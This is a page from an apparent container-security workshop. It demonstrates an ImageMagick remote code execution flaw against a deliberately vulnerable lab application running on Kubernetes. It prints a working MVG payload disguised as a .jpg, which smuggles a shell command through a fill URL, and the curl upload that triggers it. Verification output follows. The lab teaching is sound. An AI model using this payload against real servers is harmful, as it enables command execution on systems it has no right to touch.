 +++
title = "Step 4: Exploit a Container Vulnerability"
chapter = false
weight = 21
+++

## Exploit a Container Vulnerability

Putting an application into a container does not automatically make it secure. To demonstrate the risks of a vulnerable component introduced by our container base image, we will exploit a vulnerability in the ImageMagick package present in one of the pods of our running application on EKS.

## Check the application container's home directory

### Locate the pod ID
First we need the pod ID for the application:
```bash
kubectl get pod
```

```kubernetes
NAME                          READY   STATUS    RESTARTS   AGE
goof-77846d94dd-m9zgc         1/1     Running   0          83m
goof-image-555df7c7fb-446vz   1/1     Running   0          18s
goof-mongo-66f98d594c-l646p   1/1     Running   0          113m
```
Look for the pod name starting with `goof-image` and use it in the command below.

### List the current files in the container's home directory

Next we will get a file directory listing for the conatiner running in that pod by executing the following command:
```bash
kubectl exec -it [goof-image pod id] -- ls 
```

You should see the file listing of the goof-image container's home directory as follows:
```bash
CODEOWNERS  README.md  node_modules	  package.json	server.js
Dockerfile  exploits   package-lock.json  public	uploads
```

## Exploit a remote code execution vulnerability

In your Cloud9 terminal run the following:
```bash
cat image-app/exploits/rce1.jpg
```

Even though that file has a `.jpg` extension in it's name, it is actually a script:

```text
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|touch "rce1)'
pop graphic-context
```
Take special notice to the `"|touch "rce1` part of the next-to-last line.

Now, run the following:
```bash
curl -F 'twitter_picture=@rce1.jpg' http://localhost:3112/upload http://$GOOF_IMAGE_LB//
```

All we see coming back is this:
```
Found. Redirecting to /public/result.html
```

But let's check the container's filesystem again:
```bash
kubectl exec -it [goof-image pod id] -- ls 
```

```bash
CODEOWNERS  README.md  node_modules	  package.json	rce1	   uploads
Dockerfile  exploits   package-lock.json  public	server.js
```
Now we see an additional `rce1` file has been created!

## The impact of this vulnerability
The creation of an empty file may not seem that severe but realize that any command availabile in that container could be used in place of the `touch` command used here.  This includes things like `wget`, `curl` and `apt-get`.  It would not be hard to craft an exploit that pulls a shell script from an internet site and runs whatever is in it, giving the hacker a beachhead in your cluster to operate from.

Continue to the next step to learn how to identify these, and other, vulnerabilities in your container images that are introduced by your container base image.

